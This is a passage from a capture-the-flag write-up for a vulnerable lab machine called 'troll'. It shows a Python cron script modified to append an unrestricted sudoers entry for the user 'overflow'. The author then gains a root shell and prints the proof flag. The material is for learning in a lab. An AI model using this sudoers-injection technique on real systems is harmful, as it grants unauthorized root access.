 Modify cleaner.py
```
overflow@troll:/$ cat /lib/log/cleaner.py
#!/usr/bin/env python
import os
import sys
try:
        os.system('echo "overflow ALL=(ALL:ALL) ALL" >> /etc/sudoers')
except:
        sys.exit()
```
Now wait for 2 minutes....

```
overflow@troll:/$ sudo su
sudo: unable to resolve host troll
root@troll:/# 
```
Now I got root!!!

## Finding the flag
I just check for /root directory and found the proof file.
```
root@troll:~# ls -al
total 28
drwx------  3 root root 4096 Aug 13  2014 .
drwxr-xr-x 21 root root 4096 Aug  9  2014 ..
-rw-------  1 root root    0 Aug 13  2014 .bash_history
-rw-r--r--  1 root root   58 Aug 10  2014 proof.txt
-rw-r--r--  1 root root   74 Aug 10  2014 .selected_editor
drwx------  2 root root 4096 Aug 10  2014 .ssh
-rw-------  1 root root 5538 Aug 13  2014 .viminfo
root@troll:~# cat proof.txt 
Good job, you did it! 


702a8c18d29c6f3ca0d99ef5712bfbdc
```


### For other information
* [https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
